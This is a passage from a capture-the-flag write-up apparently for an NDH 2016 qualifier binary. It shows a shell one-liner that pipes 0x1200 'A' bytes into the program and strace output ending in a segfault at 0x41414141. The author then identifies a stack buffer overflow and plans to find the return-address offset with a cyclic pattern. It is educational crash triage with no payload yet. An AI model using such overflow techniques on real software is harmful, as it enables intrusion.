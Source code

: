```
$ mkfifo fifo; strace ./pwn ./fifo & python -c 'print("A"*0x1200)' > ./fifo; rm ./fifo
[1] 5437
execve("./pwn", ["./pwn", "./fifo"], [/* 35 vars */]) = 0
strace: [ Process PID=5440 runs in 32 bit mode. ]
uname({sysname="Linux", nodename="pwn", ...}) = 0
brk(NULL)                               = 0x9f14000
brk(0x9f14d40)                          = 0x9f14d40
set_thread_area({entry_number:-1, base_addr:0x9f14840, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0 (entry_number:12)
readlink("/proc/self/exe", "/ctf/ndhquals2016/secure_file_re"..., 4096) = 44
brk(0x9f35d40)                          = 0x9f35d40
brk(0x9f36000)                          = 0x9f36000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
stat64("./fifo", {st_mode=S_IFIFO|0644, st_size=0, ...}) = 0
open("./fifo", O_RDONLY)                = 3
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
read(3, "\n", 256)                      = 1
read(3, "", 256)                        = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7758000
write(1, "The file has been saved successf"..., 37%                                                                                                                           The file has been saved successfully
) = 37
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV (core dumped) +++
[1]  + 5437 segmentation fault (core dumped)  strace ./pwn ./fifo
```

yes :) We are dealing with a classic stack based buffer overflow. Now let's
find the offset of the return address. I launched the program in the debugger
and used the `cyclic` tool of `binjitsu` to generate a pattern, which we can
look up later to determine the offset to the return address.
